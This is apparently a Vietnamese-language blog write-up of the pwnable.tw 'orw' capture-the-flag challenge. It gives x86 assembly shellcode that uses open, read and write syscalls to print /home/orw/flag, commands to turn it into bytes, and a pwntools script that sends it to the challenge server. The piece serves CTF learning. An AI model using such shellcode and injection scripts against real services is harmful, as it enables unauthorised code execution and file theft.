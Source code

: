 ```yaml
---
layout: post
title:  "[Pwnable.tw][orw]"
date:   2018-05-06 8:31:39 +0700
categories: writeup re
---
```


# [orw][[pwnable.tw](https://pwnable.tw)]

>Read the flag from ```/home/orw/flag```
>
>Only ```open``` ```read``` ```write``` syscall are allowed to use.
>
>```nc chall.pwnable.tw 10001```
>
>[orw](https://pwnable.tw/static/chall/orw)

OK cũng như các bài khác mình sẽ check kiểu file và strings

Kiểu file:

 ![Kiểu file]({{ site.url }}/assets/orw_file.PNG)

Strings:

 ![Strings]({{ site.url }}/assets/orw_string.PNG)

Strong ```chall``` này mình để ý nhất đề string ```"Give me your shellcode"```.

Load chall vào IDA

![Main]({{ site.url }}/assets/orw_main.PNG)

Bài này đơn giản chỉ là đọc 1 đoạn shellcode người dùng nhập vào và thực thi doạn shellcode đó.

Quay lại vói đề bài. Ta biết vị trí của flag ```/home/orw/flag```. Biết được rằng chỉ được sử dụng các ```syscall```: ```open```, ```read```, ```write```.

Mình nghĩ mục đích của bài này để thử thách người chơi về kĩ năng tạo shellcode mà thôi

Mình sẽ sử dụng asm viết 1 đoạn chương trình đọc file và in ra màn hình sử dụng các syscall được cho phép. Rồi dùng objdump để tạo shellcode

```c
section .text
    global _start

_start:
    ;open
    mov     edx, 0
    mov     ecx, 0
    ;/home/orw/flag
    push    'ag'
    push    'w/fl'
    push    'e/or'
    push    '/hom'
    mov     ebx, esp
    mov     eax, 5
    int     80h

    ;read
    mov     edx, 30h
    mov     ecx, ebx
    mov     ebx, eax
    mov     eax, 3
    int     80h

    mov     edx, eax
    mov     eax, 4
    mov     ebx, 1
    int     80h
    ;exit
    mov     eax, 1
    int     80h

```

Biên dịch với nasm:

```sh
nasm -f elf test.asm
ld -m elf_i386 -s -o test_1 test.o
```

Dump:

```sh
for i in $(objdump -d test_1 |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```

Sau khi bước này mình đã có shellcode trong tay. Việc còn lại sẽ tương tự như ```start``` challenge trong bài viết trước

Python code:

```python
from pwn import *

host = "chall.pwnable.tw"
port = 10001

shellcode = "\xba\x00\x00\x00\x00\xb9\x00\x00\x00\x00\x68\x61\x67\x00\x00\x68\x77\x2f\x66\x6c\x68\x65\x2f\x6f\x72\x68\x2f\x68\x6f\x6d\x89\xe3\xb8\x05\x00\x00\x00\xcd\x80\xba\x30\x00\x00\x00\x89\xd9\x89\xc3\xb8\x03\x00\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80"

con = remote(host, port)
print con.recv(1024)

con.send(shellcode)
print con.recv(1024)
con.close()

```

And boooomaa..................

![Flag]({{site.url}}/assets/orw_flag.png)

